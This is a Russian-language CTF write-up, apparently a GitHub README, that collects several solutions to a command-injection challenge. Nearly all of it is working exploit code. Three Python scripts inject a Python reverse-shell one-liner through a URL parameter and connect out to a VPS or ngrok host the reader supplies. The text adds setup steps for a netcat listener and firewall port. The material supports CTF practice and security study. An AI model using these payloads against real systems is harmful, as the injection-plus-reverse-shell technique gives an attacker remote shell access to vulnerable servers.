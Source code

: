 # Таск на Command Injection. Здесь собраны несколько решений других людей, самое прикольно это reverse shell

## Исходники [server](server.py) [admink-bot](admin.py)

#1 Reverse shell через vps

################################
```
from requests import post

url = "http://chal.competitivecyber.club:13336/"

# Замените на IP вашего VPS и нужный порт
vps_ip = "YOUR_VPS_IP"
vps_port = "4444"  # Порт, на котором слушает ваш VPS

payload = {
    "path": f"api/cal?modifier=-1;python3 -c 'import socket, subprocess, os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect((\"{vps_ip}\", {vps_port})); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); import pty; pty.spawn(\"sh\")'"
}

res = post(f'{url}/visit', data=payload)
print(res.text)
````
$#############################
Настройка VPS для получения обратного shell
Откройте порт на вашем VPS: Убедитесь, что на вашем VPS открыт порт, который будет использоваться для соединения. Например, если вы планируете использовать порт 4444, вам нужно настроить брандмауэр (iptables) и, возможно, настройки вашего VPS-провайдера, чтобы разрешить входящие соединения на этот порт.

Запустите слушатель на вашем VPS: На вашем VPS откройте терминал и выполните команду для создания слушателя. Это можно сделать с помощью netcat (nc):

nc -lvnp 4444

Это позволит вашему VPS принимать входящие соединения на порту 4444.

Измените ваш payload: В вашем коде замените ngrok URL и порт на IP-адрес вашего VPS и порт, который вы открыли:



##################
```
from requests import post

url = "http://chal.competitivecyber.club:13336/"

# Здесь используйте ваш ngrok URL и порт
ngrok_url = "ngrok_tcp_url_here"
ngrok_port = "ngrok_tcp_port_here"

payload = {
    "path": f"api/cal?modifier=-1;python3 -c 'import socket, subprocess, os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect((\"{ngrok_url}\", {ngrok_port})); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); import pty; pty.spawn(\"sh\")'"
}

res = post(f'{url}/visit', data=payload)
print(res.text)
```

####################
ЧЕрез ngrook
Убедитесь, что ваш ngrok запущен и доступен.
Следите за тем, чтобы не было символов, которые сервер может интерпретировать как недопустимые (например, ;), или модификатор, который не разрешён.

#Original solution
###########
```
from requests import *

url = "http://chal.competitivecyber.club:13336/"

res = post(f'{url}/visit', data={"path":f"api/ca\tl?modifier=-1;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ngrok tcp url here",ngrok tcp port here));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'"})
print(res.text)
````
#######################
#2 Command Injection
In [solution](solution.py)
